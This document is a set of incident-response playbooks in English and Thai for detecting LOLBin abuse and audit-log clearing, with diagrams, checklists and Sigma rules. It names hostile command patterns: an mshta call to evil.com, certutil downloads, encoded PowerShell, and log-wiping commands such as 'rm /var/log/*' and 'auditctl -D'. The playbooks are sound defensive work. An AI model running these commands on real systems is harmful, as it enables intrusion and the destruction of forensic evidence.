graph TD
    Alert["🚨 Suspicious LOLBin Activity"] --> Binary{"Which binary?"}
    Binary -->|PowerShell| PS["Check: encoded cmds?\ndownload cradle?\nIEX/Invoke-Expression?"]
    Binary -->|certutil| Cert["Check: -urlcache?\n-decode?\n-encode?"]
    Binary -->|mshta/wscript| Script["Check: remote URL?\nVBS execution?"]
    Binary -->|rundll32/regsvr32| DLL["Check: loading remote DLL?\nAppLocker bypass?"]
    PS --> Context{"Normal admin activity?"}
    Cert --> Context
    Script --> Context
    DLL --> Context
    Context -->|"No — Suspicious"| Investigate["🔴 Investigate process chain"]
    Context -->|"Yes — Expected"| FP["Log context for baseline"]
    Investigate --> Parent{"Parent process?"}
    Parent -->|"Office app (Word/Excel)"| Macro["🔴 Likely macro malware"]
    Parent -->|"explorer.exe"| User["User-initiated — check user"]
    Parent -->|"svchost/services"| Service["Persistence mechanism"]
    Macro --> Contain["CONTAIN IMMEDIATELY"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### Common LOLBin Process Trees

```mermaid
graph TD
    subgraph "🔴 Malicious Pattern"
        Outlook1["outlook.exe"] --> Word1["winword.exe"]
        Word1 --> CMD1["cmd.exe"]
        CMD1 --> PS1["powershell.exe -enc ..."]
        PS1 --> Net1["Download from C2"]
    end
    subgraph "🟢 Normal Pattern"
        Explorer["explorer.exe"] --> PS2["powershell.exe"]
        PS2 --> Admin["Get-Service, Get-Process"]
    end
    subgraph "🔴 Certutil Download"
        CMD2["cmd.exe"] --> Cert["certutil -urlcache -split -f"]
        Cert --> Payload["malware.exe"]
    end
    style Outlook1 fill:#ff9900,color:#fff
    style PS1 fill:#cc0000,color:#fff
    style Cert fill:#cc0000,color:#fff
    style PS2 fill:#00aa00,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant TI as Threat Intel
    participant IR as IR Team

    EDR->>SOC: 🚨 Suspicious LOLBin execution
    SOC->>EDR: Pull full process tree (parent → child → grandchild)
    SOC->>EDR: Get command line arguments
    SOC->>SOC: Check: encoded commands? Remote URLs?
    SOC->>TI: Query URL/domain reputation
    TI->>SOC: Malicious domain confirmed
    SOC->>IR: Escalate — LOLBin attack confirmed
    IR->>EDR: Sweep all endpoints for same process chain
    IR->>SOC: Check for persistence (schtasks, registry)
```

### LOLBin Risk Matrix

```mermaid
graph TD
    subgraph "Critical Risk"
        R1["PowerShell -EncodedCommand"]
        R2["certutil -urlcache download"]
        R3["mshta http://evil.com/payload"]
    end
    subgraph "High Risk"
        R4["rundll32 remote DLL"]
        R5["regsvr32 /s /n /u scrobj.dll"]
        R6["bitsadmin /transfer download"]
    end
    subgraph "Medium Risk"
        R7["wmic process create"]
        R8["schtasks /create with cmd"]
        R9["cscript/wscript with VBS"]
    end
    style R1 fill:#cc0000,color:#fff
    style R2 fill:#cc0000,color:#fff
    style R3 fill:#cc0000,color:#fff
    style R4 fill:#ff6600,color:#fff
    style R7 fill:#ffcc00,color:#000
```

### Response Timeline

```mermaid
gantt
    title LOLBin Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        EDR/SIEM alert         :a1, 00:00, 5min
        Process tree analysis  :a2, after a1, 15min
    section Containment
        Isolate endpoint       :a3, after a2, 5min
        Block C2 domain        :a4, after a3, 10min
    section Investigation
        Command line analysis  :a5, after a4, 30min
        Endpoint sweep         :a6, after a5, 60min
        Persistence check      :a7, after a6, 30min
    section Recovery
        Remove persistence     :a8, after a7, 30min
        Policy hardening       :a9, after a8, 60min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Capture full process tree with command lines | SOC T1 |
| 2 | Isolate endpoint if malicious activity confirmed | SOC T1 |
| 3 | Block any external URLs/domains in command lines | SOC T2 |
| 4 | Check for encoded/obfuscated commands (Base64, XOR) | SOC T2 |
| 5 | Search for same LOLBin pattern across all endpoints | SOC T2 |
| 6 | Preserve PowerShell transcription/Script Block logs | SOC T2 |

## 2. Investigation Checklist

### Process Analysis
- [ ] Full process tree: parent → LOLBin → children
- [ ] Command line arguments (look for encoding, remote URLs)
- [ ] Process execution time and duration
- [ ] User context (SYSTEM, admin, or standard user?)
- [ ] Working directory of the process
- [ ] Network connections made by the process

### Persistence Check
- [ ] Scheduled tasks: `schtasks /query /v /fo LIST`
- [ ] Registry Run keys: `HKLM/HKCU\...\Run`
- [ ] Startup folder contents
- [ ] WMI subscriptions: `Get-WMIObject -Class __FilterToConsumerBinding`
- [ ] Services created or modified recently

### Common Suspicious Indicators
| LOLBin | Suspicious Usage | Normal Usage |
|:---|:---|:---|
| PowerShell | `-enc`, `-nop`, `IEX`, `Invoke-WebRequest` | Admin scripts with clear text |
| certutil | `-urlcache -split -f`, `-decode` | Certificate management |
| mshta | `http://` URL argument | Opening local `.hta` files |
| rundll32 | Loading DLL from `%TEMP%` or URL | Standard DLL loading |
| bitsadmin | `/transfer` to download EXE | Windows Update |
| wmic | `process call create` remote | System inventory queries |

## 3. Containment

| Scope | Action | Details |
|:---|:---|:---|
| **Endpoint** | Isolate via EDR | Block all network except EDR |
| **Network** | Block C2 domains/IPs | DNS sinkhole + firewall |
| **Execution** | AppLocker / WDAC rules | Block unsigned scripts |
| **Persistence** | Remove scheduled tasks | Delete malicious tasks |

## 4. Eradication & Recovery

### Immediate
1. Remove all persistence mechanisms (tasks, registry, WMI)
2. Delete downloaded payloads from disk
3. Clear PowerShell transcript logs after collection
4. Reimage if extensive compromise suspected

### Long-term Hardening
1. **PowerShell Constrained Language Mode** for non-admin users
2. **Script Block Logging** enabled (`EnableScriptBlockLogging`)
3. **AppLocker / WDAC** policies to restrict LOLBin execution
4. **Disable unused LOLBins** (mshta, cscript, wscript) via policy
5. **Credential Guard** to prevent credential theft via LOLBins

## 5. Post-Incident

### Lessons Learned
| Question | Answer |
|:---|:---|
| Which LOLBin was used and why wasn't it blocked? | [Document] |
| Was PowerShell logging enabled? | [Yes/No] |
| Are AppLocker/WDAC policies deployed? | [Status] |
| Was the attack detected by behavior or signature? | [Method] |

## 6. Detection Rules (Sigma)

```yaml
title: Suspicious Certutil Download
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\certutil.exe'
        CommandLine|contains:
            - 'urlcache'
            - '-decode'
            - '-encode'
            - '-split'
    condition: selection
    level: high
```

```yaml
title: Encoded PowerShell Command
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - '-enc'
            - '-EncodedCommand'
            - 'FromBase64String'
            - '-nop -w hidden'
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Suspicious Script Playbook](Suspicious_Script.en.md)
- [Malware Infection Playbook](Malware_Infection.en.md)
- [Privilege Escalation Playbook](Privilege_Escalation.en.md)
- [Tier 2 Runbook](../Runbooks/Tier2_Runbook.en.md)

## References
- [LOLBAS Project](https://lolbas-project.github.io/)
- [MITRE T1218 — System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/)
- [SANS — Detecting LOLBins](https://www.sans.org/white-papers/)


---

## File: 05_Incident_Response/Playbooks/Living_Off_The_Land.th.md

# Playbook: การตอบสนอง Living Off The Land (LOLBins)

**ID**: PB-39
**ความรุนแรง**: สูง | **ประเภท**: Defense Evasion / Execution
**MITRE ATT&CK**: [T1059](https://attack.mitre.org/techniques/T1059/) (Command and Scripting), [T1218](https://attack.mitre.org/techniques/T1218/) (System Binary Proxy Execution), [T1197](https://attack.mitre.org/techniques/T1197/) (BITS Jobs)
**Trigger**: EDR alert (LOLBin usage ผิดปกติ), SIEM (process chain ผิดปกติ), behavioral anomaly detection

> ⚠️ **คำเตือน**: การโจมตี LOLBin ใช้เครื่องมือ Windows ที่ถูกต้องตามกฎหมาย — bypass AV/EDR แบบ signature ได้ ต้องวิเคราะห์พฤติกรรม process

### LOLBins คืออะไร?

```mermaid
graph TD
    LOL["🔧 Living Off The Land"] --> Exec["การ Execute"]
    LOL --> Download["การ Download"]
    LOL --> Bypass["การ Bypass"]
    LOL --> Persist["Persistence"]
    
    Exec --> PS["PowerShell\nT1059.001"]
    Exec --> CMD["cmd.exe\nT1059.003"]
    Exec --> WMI["WMIC\nT1047"]
    Exec --> MSHTA["mshta.exe\nT1218.005"]
    
    Download --> Certutil["certutil.exe\nT1105"]
    Download --> BITS["bitsadmin\nT1197"]
    Download --> Curl["curl.exe\nT1105"]
    
    Bypass --> Rundll32["rundll32.exe\nT1218.011"]
    Bypass --> Regsvr32["regsvr32.exe\nT1218.010"]
    Bypass --> MSBuild["MSBuild.exe\nT1127.001"]
    
    Persist --> SchTask["schtasks.exe\nT1053.005"]
    Persist --> RegAdd["reg.exe\nT1547.001"]
    
    style LOL fill:#ff6600,color:#fff
    style PS fill:#cc3333,color:#fff
    style Certutil fill:#cc3333,color:#fff
```

### LOLBin Attack Chain

```mermaid
graph LR
    A["1️⃣ เข้าถึง\nPhishing email"] --> B["2️⃣ Execute\nmshta / wscript"]
    B --> C["3️⃣ Download\ncertutil -urlcache"]
    C --> D["4️⃣ Persistence\nschtasks /create"]
    D --> E["5️⃣ C2 Comm\nPowerShell IEX"]
    E --> F["6️⃣ Actions\nขโมยข้อมูล"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style E fill:#cc0000,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 กิจกรรม LOLBin ผิดปกติ"] --> Binary{"Binary ไหน?"}
    Binary -->|PowerShell| PS["ตรวจ: encoded cmds?\ndownload cradle?\nIEX/Invoke-Expression?"]
    Binary -->|certutil| Cert["ตรวจ: -urlcache?\n-decode?\n-encode?"]
    Binary -->|mshta/wscript| Script["ตรวจ: remote URL?\nVBS execution?"]
    Binary -->|rundll32/regsvr32| DLL["ตรวจ: โหลด remote DLL?\nAppLocker bypass?"]
    PS --> Context{"กิจกรรม admin ปกติ?"}
    Cert --> Context
    Script --> Context
    DLL --> Context
    Context -->|"ไม่ — น่าสงสัย"| Investigate["🔴 สืบสวน process chain"]
    Context -->|"ใช่ — คาดหวัง"| FP["บันทึกสำหรับ baseline"]
    Investigate --> Parent{"Parent process?"}
    Parent -->|"Office app (Word/Excel)"| Macro["🔴 อาจเป็น macro malware"]
    Parent -->|"explorer.exe"| User["User เปิดเอง — ตรวจ user"]
    Parent -->|"svchost/services"| Service["กลไก persistence"]
    Macro --> Contain["CONTAIN ทันที"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### รูปแบบ Process Tree ที่พบบ่อย

```mermaid
graph TD
    subgraph "🔴 รูปแบบอันตราย"
        Outlook1["outlook.exe"] --> Word1["winword.exe"]
        Word1 --> CMD1["cmd.exe"]
        CMD1 --> PS1["powershell.exe -enc ..."]
        PS1 --> Net1["Download จาก C2"]
    end
    subgraph "🟢 รูปแบบปกติ"
        Explorer["explorer.exe"] --> PS2["powershell.exe"]
        PS2 --> Admin["Get-Service, Get-Process"]
    end
    subgraph "🔴 Certutil Download"
        CMD2["cmd.exe"] --> Cert["certutil -urlcache -split -f"]
        Cert --> Payload["malware.exe"]
    end
    style Outlook1 fill:#ff9900,color:#fff
    style PS1 fill:#cc0000,color:#fff
    style Cert fill:#cc0000,color:#fff
    style PS2 fill:#00aa00,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant TI as Threat Intel
    participant IR as IR Team

    EDR->>SOC: 🚨 LOLBin execution ผิดปกติ
    SOC->>EDR: ดึง process tree เต็ม (parent → child → grandchild)
    SOC->>EDR: ดู command line arguments
    SOC->>SOC: ตรวจ: encoded commands? Remote URLs?
    SOC->>TI: Query URL/domain reputation
    TI->>SOC: ยืนยัน domain อันตราย
    SOC->>IR: Escalate — ยืนยันการโจมตี LOLBin
    IR->>EDR: Sweep ทุก endpoint หาว same process chain
    IR->>SOC: ตรวจ persistence (schtasks, registry)
```

### LOLBin Risk Matrix

```mermaid
graph TD
    subgraph "ความเสี่ยงวิกฤต"
        R1["PowerShell -EncodedCommand"]
        R2["certutil -urlcache download"]
        R3["mshta http://evil.com/payload"]
    end
    subgraph "ความเสี่ยงสูง"
        R4["rundll32 remote DLL"]
        R5["regsvr32 /s /n /u scrobj.dll"]
        R6["bitsadmin /transfer download"]
    end
    subgraph "ความเสี่ยงปานกลาง"
        R7["wmic process create"]
        R8["schtasks /create ด้วย cmd"]
        R9["cscript/wscript ด้วย VBS"]
    end
    style R1 fill:#cc0000,color:#fff
    style R2 fill:#cc0000,color:#fff
    style R3 fill:#cc0000,color:#fff
    style R4 fill:#ff6600,color:#fff
    style R7 fill:#ffcc00,color:#000
```

### Timeline การตอบสนอง

```mermaid
gantt
    title LOLBin Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        EDR/SIEM alert         :a1, 00:00, 5min
        วิเคราะห์ process tree :a2, after a1, 15min
    section Containment
        แยก endpoint           :a3, after a2, 5min
        Block C2 domain        :a4, after a3, 10min
    section Investigation
        วิเคราะห์ command line :a5, after a4, 30min
        Sweep endpoint         :a6, after a5, 60min
        ตรวจ persistence       :a7, after a6, 30min
    section Recovery
        ลบ persistence         :a8, after a7, 30min
        Policy hardening       :a9, after a8, 60min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | เก็บ process tree เต็มพร้อม command lines | SOC T1 |
| 2 | แยก endpoint ถ้ายืนยันกิจกรรมอันตราย | SOC T1 |
| 3 | Block URLs/domains ที่อยู่ใน command lines | SOC T2 |
| 4 | ตรวจ encoded/obfuscated commands (Base64, XOR) | SOC T2 |
| 5 | ค้นหา LOLBin pattern เดียวกันทุก endpoints | SOC T2 |
| 6 | เก็บ PowerShell transcription/Script Block logs | SOC T2 |

## 2. รายการตรวจสอบ

### วิเคราะห์ Process
- [ ] Process tree เต็ม: parent → LOLBin → children
- [ ] Command line arguments (มี encoding, remote URLs?)
- [ ] เวลาและระยะเวลา execution
- [ ] User context (SYSTEM, admin, หรือ standard user?)
- [ ] Working directory ของ process
- [ ] Network connections ที่ process สร้าง

### ตรวจ Persistence
- [ ] Scheduled tasks: `schtasks /query /v /fo LIST`
- [ ] Registry Run keys: `HKLM/HKCU\...\Run`
- [ ] เนื้อหา Startup folder
- [ ] WMI subscriptions: `Get-WMIObject -Class __FilterToConsumerBinding`
- [ ] Services ที่สร้างหรือแก้ไขเมื่อเร็วๆ นี้

### ตัวบ่งชี้ที่น่าสงสัย
| LOLBin | การใช้งานน่าสงสัย | การใช้งานปกติ |
|:---|:---|:---|
| PowerShell | `-enc`, `-nop`, `IEX`, `Invoke-WebRequest` | Admin scripts ข้อความชัดเจน |
| certutil | `-urlcache -split -f`, `-decode` | จัดการ certificate |
| mshta | `http://` URL argument | เปิดไฟล์ `.hta` ในเครื่อง |
| rundll32 | โหลด DLL จาก `%TEMP%` หรือ URL | โหลด DLL มาตรฐาน |
| bitsadmin | `/transfer` download EXE | Windows Update |
| wmic | `process call create` remote | System inventory |

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ | รายละเอียด |
|:---|:---|:---|
| **Endpoint** | แยกผ่าน EDR | Block ทุกเครือข่ายยกเว้น EDR |
| **เครือข่าย** | Block C2 domains/IPs | DNS sinkhole + firewall |
| **Execution** | AppLocker / WDAC rules | Block unsigned scripts |
| **Persistence** | ลบ scheduled tasks | ลบ tasks อันตราย |

## 4. การกำจัดและกู้คืน

### ทันที
1. ลบ persistence mechanisms ทั้งหมด (tasks, registry, WMI)
2. ลบ payloads ที่ download มาจาก disk
3. เก็บ PowerShell transcript logs แล้วลบ
4. Reimage ถ้าสงสัยว่า compromise มาก

### Hardening ระยะยาว
1. **PowerShell Constrained Language Mode** สำหรับ non-admin users
2. **Script Block Logging** เปิดใช้ (`EnableScriptBlockLogging`)
3. **AppLocker / WDAC** policies จำกัดการ execute LOLBin
4. **ปิด LOLBins ที่ไม่ใช้** (mshta, cscript, wscript) ผ่าน policy
5. **Credential Guard** ป้องกัน credential theft ผ่าน LOLBins

## 5. หลังเหตุการณ์ (Post-Incident)

### บทเรียน
| คำถาม | คำตอบ |
|:---|:---|
| LOLBin ไหนถูกใช้และทำไมไม่ถูก block? | [บันทึก] |
| PowerShell logging เปิดอยู่หรือไม่? | [ใช่/ไม่] |
| AppLocker/WDAC policies deploy แล้วหรือไม่? | [สถานะ] |
| การโจมตีตรวจจับได้จาก behavior หรือ signature? | [วิธี] |

## 6. Detection Rules (Sigma)

```yaml
title: Suspicious Certutil Download
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\certutil.exe'
        CommandLine|contains:
            - 'urlcache'
            - '-decode'
            - '-encode'
    condition: selection
    level: high
```

```yaml
title: Encoded PowerShell Command
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - '-enc'
            - '-EncodedCommand'
            - 'FromBase64String'
            - '-nop -w hidden'
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Suspicious Script Playbook](Suspicious_Script.th.md)
- [Malware Infection Playbook](Malware_Infection.th.md)
- [Privilege Escalation Playbook](Privilege_Escalation.th.md)
- [คู่มือ Tier 2](../Runbooks/Tier2_Runbook.th.md)

## References
- [LOLBAS Project](https://lolbas-project.github.io/)
- [MITRE T1218 — System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/)
- [SANS — Detecting LOLBins](https://www.sans.org/white-papers/)


---

## File: 05_Incident_Response/Playbooks/Log_Clearing.en.md

# Playbook: Audit Log Clearing (Defense Evasion)

**ID**: PB-20
**Severity**: Critical | **Category**: Defense Evasion
**MITRE ATT&CK**: [T1070](https://attack.mitre.org/techniques/T1070/) (Indicator Removal), [T1070.001](https://attack.mitre.org/techniques/T1070/001/) (Clear Windows Event Logs)
**Trigger**: SIEM gap detection, Event ID 1102/104, File integrity monitoring alert

### Backup Log Sources

```mermaid
graph TD
    Cleared["🗑️ Logs Cleared"] --> Backup{"💾 Backup?"}
    Backup -->|SIEM| SIEM["📊 SIEM retained"]
    Backup -->|Syslog| Syslog["📋 Syslog copy"]
    Backup -->|Cloud| Cloud["☁️ CloudWatch/LA"]
    Backup -->|WORM| WORM["🔒 Immutable storage"]
    SIEM --> Recover["♻️ Recover timeline"]
    Syslog --> Recover
    Cloud --> Recover
    WORM --> Recover
```

### Attack Timeline

```mermaid
sequenceDiagram
    participant Attacker
    participant System
    participant SIEM
    participant SOC
    Attacker->>System: 🔨 Compromise
    Attacker->>System: 🗑️ Clear Event Logs
    System->>SIEM: (gap detected!)
    SIEM->>SOC: 🚨 Log gap alert
    SOC->>SIEM: Check logs before deletion
    SOC->>SOC: Reconstruct timeline from backups
```

> ⚠️ **CRITICAL**: Log clearing is almost never benign. Assume the host is compromised until proven otherwise.

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Log Cleared / Audit Disabled"] --> Who{"👤 Who Performed It?"}
    Who -->|SYSTEM Account| Maint{"🔧 Scheduled Maintenance?"}
    Who -->|User Account| Ticket{"📋 Change Request?"}
    Who -->|Unknown / Service Acct| Suspicious["🔴 Highly Suspicious"]
    Maint -->|Yes, Documented| FP["✅ False Positive"]
    Maint -->|No| Suspicious
    Ticket -->|Yes, Valid| FP
    Ticket -->|No| Suspicious
    Suspicious --> Context["🔍 What Happened Before/After?"]
    Context --> Malware{"Malware / Lateral Movement?"}
    Malware -->|Yes| Breach["🚨 Confirmed Breach"]
    Malware -->|Cannot Determine| Assume["⚠️ Assume Breach"]
    Breach --> Isolate["🔌 Isolate Immediately"]
    Assume --> Isolate
```

---

## 1. Analysis

### 1.1 Key Event IDs

| Event ID | Source | Description |
|:---:|:---|:---|
| **1102** | Security | Security log was cleared |
| **104** | System | Other log was cleared (Application, System) |
| **4719** | Security | System audit policy was changed |
| **7036** | System | Windows Event Log service stopped |
| **7040** | System | Event Log service start type changed |
| **4688** | Security | `wevtutil cl` or `Clear-EventLog` process created |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Account that performed the clearing | Event ID 1102 contains the username | ☐ |
| Source workstation | Event log or remote access logs | ☐ |
| Time of log clearing | Event timestamp | ☐ |
| What happened BEFORE the clear? | SIEM (logs forwarded before local delete) | ☐ |
| What happened AFTER the clear? | SIEM + EDR timeline | ☐ |
| Was `wevtutil cl` or PowerShell used? | Process creation logs (Event ID 4688) | ☐ |
| Were Sysmon logs cleared too? | Sysmon log status | ☐ |

### 1.3 Correlation — What Was the Attacker Hiding?

| Common Pre-Clearing Activities | MITRE ID | Detection |
|:---|:---|:---|
| Malware execution | T1204 | EDR alerts before blind spot |
| Credential dumping | T1003 | LSASS access before clearing |
| Lateral movement | T1021 | RDP/SMB connections before clearing |
| Privilege escalation | T1068 | New admin accounts before clearing |
| Data exfiltration | T1048 | Large outbound transfers before clearing |
| Backdoor installation | T1543 | New services/scheduled tasks |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Isolate host** — assume full compromise | EDR | ☐ |
| 2 | **Disable user account** that performed the clearing | AD / IdP | ☐ |
| 3 | **Preserve SIEM copies** of forwarded logs (critical evidence) | SIEM | ☐ |
| 4 | **Block outbound** from isolated host (in case C2 active) | Firewall | ☐ |

### 2.2 Evidence Preservation

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Capture memory dump before remediation | ☐ |
| 2 | Image the disk for forensic analysis | ☐ |
| 3 | Export SIEM logs for the affected host (past 7 days) | ☐ |
| 4 | Collect $MFT, $UsnJrnl, Prefetch, Amcache artifacts | ☐ |

---

## 3. Investigation

### 3.1 Recover the "Blind Spot"

| Source | What It Shows | Tool |
|:---|:---|:---|
| **SIEM** (forwarded logs) | Events that were sent before local deletion | SIEM query |
| **$MFT / NTFS journal** | File creation/deletion during blind spot | Forensic tools (MFTECmd) |
| **Prefetch files** | Executables run during blind spot | PECmd |
| **Amcache / ShimCache** | Program execution artifacts | Registry analysis |
| **Sysmon logs** (if separate) | Process creation, network connections | SIEM / local Sysmon |
| **EDR telemetry** | Endpoint activity (often separate from Event Logs) | EDR console |
| **Registry Run keys** | Persistence created during blind spot | RECmd |

### 3.2 Lateral Movement from This Host

- [ ] Did the user/host connect to other systems via RDP/SMB/WMI?
- [ ] Were any other hosts' logs also cleared?
- [ ] Were credentials used from this host on other systems?

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Re-image the host** — a system with cleared logs cannot be trusted | ☐ |
| 2 | Restore from clean backup / fresh image | ☐ |
| 3 | Re-enable logging and verify forwarding to SIEM | ☐ |
| 4 | Verify audit policy is applied via GPO (prevent local override) | ☐ |
| 5 | Monitor rebuilt host for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Account used to clear logs | | Event ID 1102 |
| Source workstation | | Event log |
| Clearing timestamp | | Event log |
| Pre-clearing activity | | SIEM |
| Processes run during blind spot | | Prefetch / Amcache |
| Malware hashes (if found) | | EDR / Forensics |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Domain Admin account used to clear logs | CISO immediately |
| Multiple hosts had logs cleared | Major Incident — likely breach |
| Credential dumping detected before clearing | Tier 2 + Identity team |
| Unable to recover blind spot activity | External forensics |
| Critical server (DC, DB) had logs cleared | CISO + External IR |

---

### Log Protection Architecture

```mermaid
graph TD
    Source["📝 Log Source"] --> Agent["📡 Agent forward"]
    Agent --> SIEM["📊 SIEM (immutable)"]
    Agent --> WORM["🔒 WORM storage"]
    Source --> Local["💽 Local (vulnerable)"]
    Local -.->|❌ Deleted| Attacker["🔴 Attacker"]
    SIEM -.->|✅ Preserved| SOC["🎯 SOC"]
    style WORM fill:#27ae60,color:#fff
    style SIEM fill:#3498db,color:#fff
    style Local fill:#e74c3c,color:#fff
```

### Log Source Priority

```mermaid
graph LR
    Priority["📋 Priority"] --> P1["🔴 P1: Auth logs"]
    Priority --> P2["🟠 P2: Firewall/Proxy"]
    Priority --> P3["🟡 P3: Application"]
    Priority --> P4["🟢 P4: Debug"]
    P1 --> SIEM["📊 SIEM real-time"]
    P2 --> SIEM
    P3 --> Archive["🗄️ Archive 1yr"]
    P4 --> Archive
    style P1 fill:#e74c3c,color:#fff
    style P2 fill:#f39c12,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Windows Security Log Cleared | [win_security_log_cleared.yml](../../08_Detection_Engineering/sigma_rules/win_security_log_cleared.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-15 Rogue Admin](Rogue_Admin.en.md)
- [PB-12 Lateral Movement](Lateral_Movement.en.md)
- [PB-07 Privilege Escalation](Privilege_Escalation.en.md)

## References

- [MITRE ATT&CK T1070 — Indicator Removal](https://attack.mitre.org/techniques/T1070/)
- [Sigma: Security Event Log Cleared](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_event_log_cleared.yml)
- [SANS DFIR: Windows Artifact Analysis](https://www.sans.org/white-papers/36842/)


---

## File: 05_Incident_Response/Playbooks/Log_Clearing.th.md

# Playbook: การลบ/แก้ไข Log

**ID**: PB-15
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: การป้องกันตัว (Defense Evasion)
**MITRE ATT&CK**: [T1070.001](https://attack.mitre.org/techniques/T1070/001/) (Clear Windows Event Logs), [T1070.002](https://attack.mitre.org/techniques/T1070/002/) (Clear Linux/Mac Logs)
**ทริกเกอร์**: SIEM gap detection, Event ID 1102/104, file integrity alert, log integrity failure


## หลังเหตุการณ์ (Post-Incident)

- [ ] ใช้ immutable logging (WORM storage)
- [ ] ตรวจสอบ log forwarding ว่าสมบูรณ์
- [ ] ทบทวน log retention policies
- [ ] ใช้ tamper protection สำหรับ EDR logs
- [ ] สร้าง alert สำหรับ log deletion events
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังแหล่ง Log สำรอง

```mermaid
graph TD
    Cleared["🗑️ Log ถูกลบ"] --> Backup{"💾 Log สำรอง?"}
    Backup -->|SIEM| SIEM["📊 SIEM retained"]
    Backup -->|Syslog Server| Syslog["📋 Syslog copy"]
    Backup -->|Cloud| Cloud["☁️ CloudWatch/LA"]
    Backup -->|WORM| WORM["🔒 Immutable storage"]
    SIEM --> Recover["♻️ กู้คืน timeline"]
    Syslog --> Recover
    Cloud --> Recover
    WORM --> Recover
```

### ผังลำดับเวลา

```mermaid
sequenceDiagram
    participant Attacker
    participant System
    participant SIEM
    participant SOC
    Attacker->>System: 🔨 Compromise
    Attacker->>System: 🗑️ ลบ Event Logs
    System->>SIEM: (gap detected!)
    SIEM->>SOC: 🚨 Log gap alert
    SOC->>SIEM: ตรวจ logs ก่อนถูกลบ
    SOC->>SOC: สร้าง timeline จาก backup
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Log ถูกลบ/แก้ไข"] --> Source{"🔍 ใครลบ?"}
    Source -->|Admin ที่ได้รับอนุมัติ| Verify["✅ ตรวจสอบ Change Ticket"]
    Source -->|ไม่ทราบ/ไม่ได้รับอนุมัติ| Suspicious["🔴 น่าสงสัย"]
    Source -->|Service Account| Auto["⚙️ ตรวจสอบ Automation"]
    Suspicious --> Scope{"📊 ขอบเขต?"}
    Scope -->|ระบบเดียว| Single["🟠 สอบสวน Host"]
    Scope -->|หลายระบบ| Multiple["🔴 กิจกรรมผู้โจมตี"]
    Multiple --> Hunt["🔍 Threat Hunt เต็มรูปแบบ"]
    Single --> Hunt
    Verify --> Close["📋 บันทึกและปิด"]
```

---

## 1. การวิเคราะห์

### 1.1 รูปแบบการลบ Log

| วิธี | Windows Event ID | Linux | การตรวจจับ |
|:---|:---|:---|:---|
| **ล้าง Event Log** | **1102** (Security), **104** (System) | — | SIEM alert |
| **ลบไฟล์ Log** | Sysmon Event 23 | `rm /var/log/*` | FIM |
| **หยุด Service** | 7036 (eventlog service) | `systemctl stop rsyslog` | SIEM |
| **แก้ไข timestamp** | — | `touch`, `timestomp` | SIEM timestamp gap |
| **ปิด Audit Policy** | 4719 | `auditctl -D` | GPO / SIEM |
| **ลบ Syslog Forward** | — | แก้ไข rsyslog.conf | Config monitoring |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Log ใดถูกลบ? (Security, System, Application) | SIEM / Event ID 1102, 104 | ☐ |
| เมื่อใด? | SIEM timestamp | ☐ |
| ใครลบ? (username, process) | SIEM / EventLog | ☐ |
| มี change request ที่ได้รับอนุมัติหรือไม่? | ITSM | ☐ |
| มีกิจกรรมอันตรายอื่นก่อนหน้าหรือไม่? | SIEM timeline | ☐ |
| มีระบบอื่นที่ log ถูกลบด้วยหรือไม่? | SIEM search | ☐ |
| มี backup log อยู่หรือไม่? | SIEM / Log archive | ☐ |
| Audit policy ถูกเปลี่ยนหรือไม่? | GPO / Event 4719 | ☐ |

> ⚠️ **สำคัญ**: การลบ log มักเป็นขั้นตอน **หลังการโจมตี** — มีโอกาสสูงว่ามีเหตุการณ์อื่นที่ร้ายแรงกว่าเกิดขึ้นด้วย

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** host ที่ log ถูกลบ | ☐ |
